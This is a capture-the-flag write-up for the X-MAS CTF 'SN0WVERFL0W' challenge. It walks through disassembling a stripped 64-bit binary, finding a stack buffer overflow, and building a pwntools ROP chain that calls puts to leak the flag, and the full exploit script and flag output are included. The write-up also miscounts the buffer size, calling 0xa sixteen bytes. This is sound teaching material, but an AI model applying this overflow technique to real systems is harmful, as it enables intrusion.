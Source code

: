 # SN0WVERFL0W
> Binary Exploitation
--------------------

## Problem Statement
> Snow, snow, snow... there is snow everywhere! I'm feeling a little bit overwhelmed... or would I say overflowed?  
> **Connect using: nc challs.xmas.htsp.ro 12006**  
> File : [**chall**](./chall)

## Analysis

* Lets just quickly check the binary
    >```shell
    >$strings chall
    >...
    >...
    >X-MAS{REAL FLAG ON THE SERVER}
    >...
    >...
    >
    >$ file chall
    >chall: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0,
    >BuildID[sha1]=b96d5da6df4dc39b35bec7a8068b741d24999c3d, stripped
    >
    >$ checksec chall
    >[*] 'snowoverflow/chall'
    >    Arch:     amd64-64-little
    >    RELRO:    Partial RELRO
    >    Stack:    No canary found
    >    NX:       NX enabled
    >```
*  Things to note here are
    >   * **The Flag is contained within the binary**
    >   * **Stripped** `The binary is stripped (No function name is present )`
    >   * **NX enabled** `Stack is not executable (cannot place a shellcode on stack)`
    >   * **Dynamically linked**

* Let's check the disassembly  
    `But wait we the binary has no information about function names right? so
    how can we disassemble main`  
    > **Disaaembly of main**
    >```gdb
    >gdb$  x/38i 0x401167
    >    0x401167:    push   rbp
    >    0x401168:    mov    rbp,rsp
    >    0x40116b:    sub    rsp,0x10
    >    0x40116f:    mov    rax,QWORD PTR [rip+0x2eda]        # 0x404050 <stdin>
    >    0x401176:    mov    ecx,0x0
    >    0x40117b:    mov    edx,0x2
    >    0x401180:    mov    esi,0x0
    >    0x401185:    mov    rdi,rax
    >    0x401188:    call   0x401060 <setvbuf@plt>
    >    0x40118d:    mov    rax,QWORD PTR [rip+0x2eac]        # 0x404040 <stdout>
    >    0x401194:    mov    ecx,0x0
    >    0x401199:    mov    edx,0x2
    >    0x40119e:    mov    esi,0x0
    >    0x4011a3:    mov    rdi,rax
    >    0x4011a6:    call   0x401060 <setvbuf@plt>
    >    0x4011ab:    mov    edi,0x402030
    >    0x4011b0:    call   0x401030 <puts@plt>
    >    0x4011b5:    lea    rax,[rbp-0xa]
    >    0x4011b9:    mov    edx,0x64
    >    0x4011be:    mov    rsi,rax
    >    0x4011c1:    mov    edi,0x0
    >    0x4011c6:    mov    eax,0x0
    >    0x4011cb:    call   0x401040 <read@plt>
    >    0x4011d0:    lea    rax,[rbp-0xa]
    >    0x4011d4:    mov    esi,0x40205a
    >    0x4011d9:    mov    rdi,rax
    >    0x4011dc:    call   0x401050 <strcmp@plt>
    >    0x4011e1:    test   eax,eax
    >    0x4011e3:    jne    0x4011f1
    >    0x4011e5:    mov    edi,0x40205e
    >    0x4011ea:    call   0x401030 <puts@plt>
    >    0x4011ef:    jmp    0x4011fb
    >    0x4011f1:    mov    edi,0x402077
    >    0x4011f6:    call   0x401030 <puts@plt>
    >    0x4011fb:    mov    eax,0x0
    >    0x401200:    leave
    >    0x401201:    ret
    >    0x401202:    nop    WORD PTR cs:[rax+rax*1+0x0]
    >gdb$  
    >```
* Lets annalyse everything we have 
    > * Size of stack in 0x10 **16 bytes**
    >     ```
    >    0x401167:    push   rbp
    >    0x401168:    mov    rbp,rsp
    >    0x40116b:    sub    rsp,0x10
    >    ```
    > * Then there are certain calls to certain functions setvbuf, puts and read  
    >`lets checkout read because we will be directly interacting with it` 
    >
    >    ```gdb
    >    0x4011b5:    lea    rax,[rbp-0xa]
    >    0x4011b9:    mov    edx,0x64
    >    0x4011be:    mov    rsi,rax
    >    0x4011c1:    mov    edi,0x0
    >    0x4011c6:    mov    eax,0x0
    >    0x4011cb:    call   0x401040 <read@plt>
    >    ```
    > So read gets a buffer of **0xa (16) bytes** but it can write **0x64 (100)bytes**

## Solution
* Loadout  `What do we have`  

                                            We have a buffer overflow
                            Stack is not executable so we can't execute any shellcode
                                        So we have to use a ROP chain

* Target `what to do`  

                                  Read a string from a memory location within the binary

* Plan  

                                            Find The  address of String
                                                Find address of puts
                                        Call puts with the address of string

## Exploit

* Lets write all that in code

    * [**exploit.py**](./exploit.py)
        ```python
        #!/bin/env python3

        from pwn import *
        import sys

        context.arch = 'amd64'
        chall = ELF('./chall')

        if len(sys.argv) > 1 and sys.argv[1] == 'remote':
            host, port = 'challs.xmas.htsp.ro', 12006
            p = remote(host, port)
        else:
            p = chall.process()

        buff = b'A' * (0xa + 8)
        flag = p64(next(chall.search(b'X-MAS')))
        call_puts = p64(chall.symbols['puts'])
        pop_rdi = p64(next(chall.search(asm('pop rdi; ret'))))

        ROP_chain = buff + pop_rdi + flag + call_puts

        p.recvline()
        p.sendline(ROP_chain)
        p.recvline()
        print(p.recvline().decode(),end='')
        ```

## Flag
>```shell
>$ ./exploit.py remote
> X-MAS{700_much_5n0000w}
>```
>**flag:**   `X-MAS{700_much_5n0000w}` 
